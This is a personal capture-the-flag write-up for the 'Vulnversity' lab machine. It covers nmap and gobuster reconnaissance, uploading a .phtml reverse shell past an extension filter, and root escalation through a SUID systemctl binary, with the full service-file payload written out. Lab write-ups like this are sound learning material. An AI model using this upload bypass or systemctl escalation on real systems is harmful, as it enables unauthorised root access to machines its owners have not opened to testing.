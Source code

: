 # Vulnversity


### Task One - Deploy Machine

```
export IP=10.10.222.149
```

### Task Two - Reconnaissance

1. Nmap cheatsheets 
```
done
```

2. How many ports are opened.
```
6
Command nmap -sV $IP
```

3.what version of the squid proxy is running on the machine 
```
Squid http proxy 3.5.12
Technique: Just look through the nmap scan data, you'll catch something :(
```

4. How many ports will nmap scan if the flag -p-400 was used?
```
Command: nmap -sV -p-400 $IP
Answer: 400
Technique: the 400 infront of the -p is the answer lmao!
```

5. Using the nmap flag -n what will it not resolve?
```
dns
```

6. What is the most likely operating system this machine is running?
```
ubuntu
```

7. What port is the web server running on?
```
3333
```

8. Perform a full port scan 
```
Command: nmap -sC -sV -oA vulnversity_full -p- $IP &
This particular scan is taking too long to complete so i'm trying another one

Command: nmap -sC -sV -oN nmap/initial $IP
```

### Task 3 - Locating directories using `gobuster`

1. scan the server
```
Command: gobuster dir -u http://<ip>:<port> -w <word list location>
```

2. What is the directory that has an upload form page?
```
/internal/
```

### Compromise the webserver

Trying to fuzz the upload form of the webserver. but i'll do it with python because i dont know how burpsuite works just yet.
Special character: §
I got extension type that they like and thats `.phtml`. I am going to send a phtml reverse shell script to the server and execute it.


### Priveledege Escalation
- okay the reverse shell is working as expected. but one more thing is exploiting the user priveleges to get a real shell this time around. I found a `/bin/systemctl` SUID on the system. But first i need a `.service` file which i am having a had time creating.

- After trying so hard to pwn this machine for 3 days straight i finally got to do it and it was fun. The answer was literally staring at me the whole time. I was just thinking too far to think of something to simple.
So basically there was suid bit that could be executed to run root commands. I got this idea but actually wanted to get a stable shell before i go and read the `root.txt` file. So i tried writing `.phtml` scripts to go and create a `root.service` file that will send a stable reverse shell with a tty to my local machine(i used my ip). Tried it in different ways but it didn't work for me. A better way would have been to create a `.service` file to read the flag and output it. This came to me after 3 days of trying fruitlessly :).

```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output" 
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
``` 

### NOTES

Looks like i have to learn how to use burpsuite as it is necessary for this challenge

Also i feel like a simple python script can do this without installing a complete application. But its good I have to learn how to use a new pentesting app. But still I'll have to look around the interwebz for a python script to fuzz the input form.

This is the form upload page that was fucking me up last time. Okay so, last time i thought a python script could do this and i was right, you can use a simple python script to upload a simple file to a webpage. Saw John Hammond do it one of his videos. Man i love that guy.
